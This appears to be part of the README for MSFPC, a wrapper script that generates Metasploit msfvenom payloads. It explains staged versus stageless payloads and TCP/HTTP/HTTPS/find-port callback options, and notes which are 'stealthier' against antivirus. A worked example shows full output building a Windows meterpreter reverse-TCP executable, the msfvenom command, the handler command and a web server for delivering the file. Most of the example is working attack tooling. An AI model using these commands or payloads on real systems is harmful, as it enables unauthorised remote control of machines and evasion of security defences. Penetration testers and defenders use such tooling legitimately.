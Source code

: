 ```
 <STAGELESS> is the complete standalone payload. More 'stable' than <STAGED>.
 Missing <STAGED/STAGELESS> will default to <STAGED> where possible.
   Note: Metasploit doesn't (yet!) support <STAGED/STAGELESS> for every <TYPE> format.
 <STAGED> are 'better' in low-bandwidth/high-latency environments.
 <STAGELESS> are seen as 'stealthier' when bypassing Anti-Virus protections. <STAGED> may work 'better' with IDS/IPS.
 More information: https://community.rapid7.com/community/metasploit/blog/2015/03/25/stageless-meterpreter-payloads
                   https://www.offensive-security.com/metasploit-unleashed/payload-types/
                   https://www.offensive-security.com/metasploit-unleashed/payloads/

 <TCP> is the standard method to connecting back. This is the most compatible with TYPES as its RAW. Can be easily detected on IDSs.
 <HTTP> makes the communication appear to be HTTP traffic (unencrypted). Helpful for packet inspection, which limit port access on protocol - e.g. TCP 80.
 <HTTPS> makes the communication appear to be (encrypted) HTTP traffic using as SSL. Helpful for packet inspection, which limit port access on protocol - e.g. TCP 443.
 <FIND_PORT> will attempt every port on the target machine, to find a way out. Useful with stick ingress/engress firewall rules. Will switch to 'allports' based on <TYPE>.
 Missing <TCP/HTTP/HTTPS/FIND_PORT> will default to <TCP>.
 By altering the traffic, such as <HTTP> and even more <HTTPS>, it will slow down the communication & increase the payload size.
 More information: https://community.rapid7.com/community/metasploit/blog/2011/06/29/meterpreter-httphttps-communication

 <BATCH> will generate as many combinations as possible: <TYPE>, <CMD + MSF>, <BIND + REVERSE>, <STAGED + STAGLESS> & <TCP + HTTP + HTTPS + FIND_PORT>
 <LOOP> will just create one of each <TYPE>.

 <VERBOSE> will display more information.
$
```


## Example \#1 (Windows, Fully Automated Using Manual IP)

```bash
$ bash msfpc.sh windows 192.168.1.10
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)
 [i]   IP: 192.168.1.10
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe \
  --platform windows -a x86 -e generic/none LHOST=192.168.1.10 LPORT=443 \
  > '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [i] Run: msfconsole -q -r '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!
$
```
